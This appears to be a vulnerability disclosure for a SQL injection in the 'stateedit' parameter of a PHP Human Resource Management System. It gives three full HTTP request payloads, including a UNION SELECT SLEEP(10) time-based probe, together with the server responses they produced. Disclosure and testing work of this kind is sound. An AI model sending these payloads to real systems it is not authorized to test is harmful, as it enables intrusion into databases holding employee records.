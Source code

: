 # Human Resource Management System v1.0 by oretnom23 has SQL injection

BUG_Author:YokiYoda

vendors:https://www.sourcecodester.com/php/15740/human-resource-management-system-project-php-and-mysql-free-source-code.html

Vulnerability File: /hrm/state.php?stateedit

Vulnerability location: /hrm/state.php?stateedit=, stateedit

Payload1:stateedit=1'

```
GET /hrm/state.php?stateedit=1' HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: PHPSESSID=si1cb8mag2mckobpi0ffs1htmk
Connection: close
```

An error page

![image](https://github.com/ImaizumiYui/pic/blob/main/sqlerror.png)

Payload2:stateedit=1''

```
GET /hrm/state.php?stateedit=1'' HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: PHPSESSID=si1cb8mag2mckobpi0ffs1htmk
Connection: close
```

An right page

![image](https://github.com/ImaizumiYui/pic/blob/main/sqlright.png)

Payload3:stateedit=1' UNION ALL SELECT NULL,NULL,SLEEP(10)-- -

```
GET /hrm/state.php?stateedit=1%27%20UNION%20ALL%20SELECT%20NULL,NULL,SLEEP(10)--%20- HTTP/1.1
Host: localhost
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: PHPSESSID=si1cb8mag2mckobpi0ffs1htmk
Connection: close
```

sleep(10) The server response time is 10 seconds

![image](https://github.com/ImaizumiYui/pic/blob/main/sqlsleep.png)



